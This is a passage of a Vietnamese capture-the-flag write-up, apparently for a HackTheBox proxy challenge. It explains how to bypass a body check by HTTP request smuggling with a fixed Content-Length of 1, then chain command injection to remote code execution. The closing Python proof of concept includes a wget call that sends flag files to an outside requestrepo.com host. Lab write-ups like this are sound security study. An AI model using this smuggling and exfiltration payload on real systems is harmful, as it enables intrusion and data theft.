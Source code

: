 - Như phần check ở trên ta hướng tới request smuggling
- Có thể thấy một điều kì lạ là nếu ta tiếp sử dụng ``\r\n\r\n`` để gửi request thứ hai (smuggling) và bằng cách cố định việc truyền Content-Length: 1 và phần body với length tương đương, lúc này request parser sẽ coi phần thân lúc này chỉ là byte đầu với length là 1, điều này có nghĩa là khi checkMaliciousBody kiểm tra nó sẽ chỉ xem xét duy nhất byte này mà không tiến hành check requests thứ hai.


```
l3mnt2010@ASUSEXPERTBOOK:~/HTB/medium/HTBProxy$ python3 index.py
b'HTTP/1.1 401 Unauthorized\nX-Powered-By: Express\nContent-Type: application/json; charset=utf-8\nContent-Length: 37\nETag: W/"25-+Jf7C2mDx/nvPFRCWncafprqHNs"\nDate: Fri, 28 Jun 2024 09:49:43 GMT\nConnection: keep-alive\nKeep-Alive: timeout=5\n\n{"message":"Error getting addresses"}HTTP/1.1 401 Unauthorized\nX-Powered-By: Express\nContent-Type: application/json; charset=utf-8\nContent-Length: 38\nETag: W/"26-1CQv+OK4Js7XnYldCbe/Ju97dzY"\nDate: Fri, 28 Jun 2024 09:49:43 GMT\nConnection: keep-alive\nKeep-Alive: timeout=5\n\n{"message":"Error flushing interface"}\n'
l3mnt2010@ASUSEXPERTBOOK:~/HTB/medium/HTBProxy$

```

- Như ta thấy thì ở đây ta có thể nhận được phản hồi của cả 2 endpoint.
- Bây giờ thì chỉ cần commandi để rce và nhận flag thôi

![image](https://hackmd.io/_uploads/HJfqqb280.png)


```
l3mnt2010@ASUSEXPERTBOOK:~/HTB/medium/HTBProxy$ python3 index.py
b'HTTP/1.1 401 Unauthorized\nX-Powered-By: Express\nContent-Type: application/json; charset=utf-8\nContent-Length: 37\nETag: W/"25-+Jf7C2mDx/nvPFRCWncafprqHNs"\nDate: Fri, 28 Jun 2024 10:04:52 GMT\nConnection: keep-alive\nKeep-Alive: timeout=5\n\n{"message":"Error getting addresses"}HTTP/1.1 401 Unauthorized\nX-Powered-By: Express\nContent-Type: application/json; charset=utf-8\nContent-Length: 38\nETag: W/"26-1CQv+OK4Js7XnYldCbe/Ju97dzY"\nDate: Fri, 28 Jun 2024 10:04:52 GMT\nConnection: keep-alive\nKeep-Alive: timeout=5\n\n{"message":"Error flushing interface"}\n'
l3mnt2010@ASUSEXPERTBOOK:~/HTB/medium/HTBProxy$

```

![image](https://hackmd.io/_uploads/r18QjbnU0.png)

poc:

```
# pip install pickora

import socket
from pickora import Compiler
import base64
from urllib.parse import quote_from_bytes

compiler = Compiler(extended=True)

HTTP_MSG = b"POST /getAddresses HTTP/1.1\r\n"
HTTP_MSG+= b"Host: magic-192-168-198-26.nip.io:5000\r\n"
HTTP_MSG+= b"Content-Type: application/x-www-form-urlencoded\r\n"
HTTP_MSG+= b"Content-Length: 1" + b"\r\n"
HTTP_MSG+= b"\r\n"
HTTP_MSG+= b"a" + b"\r\n"
HTTP_MSG+= b"\r\n"
HTTP_MSG+= b"POST /flushInterface HTTP/1.1\r\n"
HTTP_MSG+= b"Host: localhost:5000\r\n"
HTTP_MSG+= b"Content-Type: application/json\r\n"
HTTP_MSG+= b"Content-Length: 79" + b"\r\n"
HTTP_MSG+= b"\r\n"
HTTP_MSG+= b"{\"interface\":\";wget${IFS}http://requestrepo.com/0toin6os/?a=`cat${IFS}/*.txt`\"}\r\n"

```
